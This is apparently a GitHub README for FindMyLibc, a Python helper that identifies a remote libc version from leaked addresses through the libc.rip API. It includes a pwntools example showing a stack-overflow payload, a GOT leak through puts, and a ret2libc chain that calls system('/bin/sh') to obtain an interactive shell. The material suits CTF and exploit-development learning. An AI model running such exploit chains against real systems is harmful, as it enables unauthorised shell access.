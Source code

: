 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
**No heavy libc downloading, all remote, 1 simple function call.**

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```
pip install findmylibc
```  
Then use easily:  
```
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

See below the example.

# Example
Here's a simple example of exploit script (see [`.example/example.py`](https://github.com/omrina/FindMyLibc/blob/main/example/example.py)).

### Setup your binary exploit script:
Whatever you need...
```
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### We need to set up a "leak address" function:

```
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `.example/example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How do we use the results:
You would probably need only `syms`, each value is the integer of the calcualted address, so you can use it like:
```
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
`_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']`  
Then it makes reqeusts to the public `https://libc.rip/api/find'`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
`matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)`


